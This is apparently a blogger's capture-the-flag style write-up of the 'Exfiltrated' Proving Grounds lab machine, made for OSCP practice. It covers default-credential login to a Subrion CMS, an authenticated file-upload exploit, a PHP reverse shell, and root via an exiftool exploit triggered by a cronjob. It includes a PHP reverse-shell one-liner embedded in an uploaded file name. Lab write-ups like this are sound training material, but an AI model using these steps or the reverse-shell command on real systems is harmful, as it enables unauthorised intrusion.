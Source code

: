```yaml
---
layout: writeup
title: Exfiltrated - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Exfiltrated Box from Proving Grounds
image: # /assets/images/Exfiltrated/subrion.png
fig-caption: # Add figcaption (optional)
tags: [Linux, TJ Null, LainKusunagi]
---
```



Ok, still working through TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#) with another [Proving Grounds](https://www.offsec.com/labs/) box. This one is called "Exfiltrated." It is also on LainKusanagi's [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/), which I saw on Reddit, so I've been going through those as well. Nice to have some overlap. 

As usual, let's kick things off with a basic nmap scan which revealed these ports:

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http

Since we're usually not going to find anything on port 22 with a lab like this, I went ahead and got started checking out the web page on port 80 while I ran a ful port scan (which showed nothing) and enumerated directories. Right off the bat, I could see that putting the IP in the URL bar caused a changed to exfiltrated.offsec, so I went ahead and added that to my /etc/hosts file to help things run a little bit smoother. 

![Exfiltrated Kickstart](/assets/images/Exfiltrated/kickstart.png){: .responsive-image}

Looks like we have another CMS, and right ahead we can see that there is a login page. However, we can also see from out directory scan that we have page called exfiltrated.offsec/panel/blog/register which states explicitly that it is the Subrion Admin Panel. 

![Exfiltrated Admin](/assets/images/Exfiltrated/subrion.png){: .responsive-image}

I decided to focus my efforts there, but since I don't have any creds yet, it was time to look around for public exploits for Subrion in particular. 

![Exfiltrated Searchsploit](/assets/images/Exfiltrated/searchsploits.png){: .responsive-image}

Since the admin page tells us we are on v4.2.1, I checked those out first. XSS might not be super helpful here as we can't really rely on any other users to interact with the system, so that leaves use with the Abitrary File Upload and the CSRF which apparently adds an admin user. Typically for a box like this, I would expect a File Upload exploit to help us get a reverse shell, but when I tried to run it, it required authentication. That's too bad, but we have the CSRF for that. After checking that exploit briefly, I figured it might make sense to at least check for a few easy logins first before trying to run it. I tried admin:admin, and we were in immediately. I should note that I first searched "Subrion Default Creds" in google, and I see this as the third result:

![Exfiltrated Google](/assets/images/Exfiltrated/google.png){: .responsive-image}

I didn't click on it to try, but it definitely let me know I was on the right track. Shout out to [jayngng](https://jayngng.github.io/) lol. At this point I knew I could use those creds for the File Upload vulnerability, so I got that working and got a reverse shell. 

![Exfiltrated Google](/assets/images/Exfiltrated/shellcaught.png){: .responsive-image}

Unfortuanately this was not a particularly interactive shell. I couldn't change directories, and while I could download files from my python server, I couldn't execute them, or apparently even change permissions on them so they were executable. After shamefully long time looking around, I realized that if I could upload a file remotely and execute it, I could also probably just upload a shell through the admin panel myself and execute it from there. I did take a detour and check out the SQL tool available in the admin panel, even finding a password and taking a while to crack it in case it helped me get in through ssh. 

![Exfiltrated SQL Tool](/assets/images/Exfiltrated/sqlpage.png){: .responsive-image}

Guess what that that bcrypt hash cracks to? Yep, admin. Oops. No worries, I did make my way to the Uploads page and try a few reverse shells. Eventually I went with one from [Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell) I found on [revshells.com](https://www.revshells.com/) since I've used it before, and it's pretty stable. I also used the .phar extension when I uploaded it because that's what the File Upload exploit used. From there I was able change permissions to linpeas and run it. One that that stuck out was this cronjob:
<br>
| root	bash /opt/image-exif.sh |
<br>

I checked out the script, and it looked like this: 

    #! /bin/bash
    #07/06/18 A BASH script to collect EXIF metadata 
    
    echo -ne "\\n metadata directory cleaned! \\n\\n"
    
    
    IMAGES='/var/www/html/subrion/uploads'
    
    META='/opt/metadata'
    FILE=`openssl rand -hex 5`
    LOGFILE="$META/$FILE"
    
    echo -ne "\\n Processing EXIF metadata now... \\n\\n"
    ls $IMAGES | grep "jpg" | while read filename; 
    do 
        exiftool "$IMAGES/$filename" >> $LOGFILE 
    done
    
    echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
<br>

I analyzed it for a little bit and realized it was taking jpg's from the uploads folder, reading the file name, and then doing something, but I wasn't sure what. So I uploaded a picture to see, did some googling, and realized that it was just taking the filename and turning it into a random hex code to store in the /opt/metadata folder. At this point I figured I could just upload a picture with a shell code as the name, and the exiftool would read and execute. That turned out not to be true, but I did upload a picture of Orville Redenbacher named, "php -r '$sock=fsockopen("$myIP",4444);exec("sh <&3 >&3 2>&3");'" before I realized it. I did a little more googling, and realized there were a few public exploits for exiftool. I pulled [this one](https://www.exploit-db.com/exploits/50911) from exploit-db, but I couldn't get it working. I did a little more googling, and found a re-written version of the same exploit which checked for dependencies and suggested missing ones. Helpful!

![Exfiltrated Exploit Dependencies](/assets/images/Exfiltrated/dependencies.png){: .responsive-image}

So I installed those and ran the exploit again. 

![Exfiltrated Proof](/assets/images/Exfiltrated/proof.png){: .responsive-image}

Boom. Overall it was a pretty simple box, but it was a helpful exercise in reading carefully and being patient because I did have to make a few different attempts at basically every step. One thing to note - there's two flags on this machine. If you want to get both, you need to check the user's home directory which I was only able to do after rooting the machine. Til next time. 
